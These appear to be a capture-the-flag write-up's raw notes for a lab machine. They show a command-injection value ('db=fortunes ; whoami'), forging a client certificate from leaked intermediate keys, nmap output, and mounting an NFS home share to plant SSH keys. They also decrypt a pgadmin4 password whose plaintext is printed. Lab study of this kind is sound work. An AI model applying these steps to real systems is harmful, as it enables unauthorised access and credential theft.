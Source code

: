 10.10.10.127

# Website sends parameter to db and allows appending of commands
>>> db=fortunes ; whoami

# The binary seems to be run from the webpage
>>> /usr/games/fortune

# We find a directory of certificates using the intermediate certificates we can make a pk12 cert that
# user authenticates us
>>> openssl pkcs12 -export -inkey intermediate.key.pem -in intermediate.cert.pem -out intermediate.p12

# This provides us with a page to create ssh certs

# Page greets us with:

    You will need to use the local authpf service to obtain elevated network access. 
    If you do not already have the appropriate SSH key pair, then you will need to 
    generate one and configure your local system appropriately to proceed.

# This is a service that seems to allow traffic out a new nmap scan gives us:

>>> ssh nfsuser@10.10.10.127

Nmap scan report for 10.10.10.127
Host is up (0.094s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 07:ca:21:f4:e0:d2:c6:9e:a8:f7:61:df:d7:ef:b1:f4 (RSA)
|   256 30:4b:25:47:17:84:af:60:e2:80:20:9d:fd:86:88:46 (ECDSA)
|_  256 93:56:4a:ee:87:9d:f6:5b:f9:d9:25:a6:d8:e0:08:7e (ED25519)
80/tcp   open  http       OpenBSD httpd
|_http-server-header: OpenBSD httpd
|_http-title: Fortune
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100003  2,3         2049/tcp  nfs
|   100003  2,3         2049/udp  nfs
|   100005  1,3          662/udp  mountd
|_  100005  1,3          939/tcp  mountd
443/tcp  open  ssl/https?
|_ssl-date: TLS randomness does not represent time
2049/tcp open  nfs        2-3 (RPC #100003)
8081/tcp open  http       OpenBSD httpd
|_http-server-header: OpenBSD httpd
|_http-title: pgadmin4

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.86 seconds

# /etc/exports just has "home" in it?
# it allows us to mount the home directory, this gives us write access in the
# nfsuser directory?

# Can get the flag from Charlie's directory. 
# By adding the key we received earlier we can get onto ssh with Charlie

>>> sudo mount -t nfs 10.10.10.127:home /mnt

# ROOT

/usr/local/pgadmin4
/usr/local/pgadmin4/.virtualenvs/pgadmin4

/var/appsrv/pgadmin4

# Need to look at how the passwords are encrypted

>>> from pgadmin.utils.crypto import encrypt, decrypt, pqencryptpassword

# The password we need to decrypt:

>>> utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz

# Using the python decrypt file we get:

>>> R3us3-0f-a-P4ssw0rdl1k3th1s?_B4D.ID3A!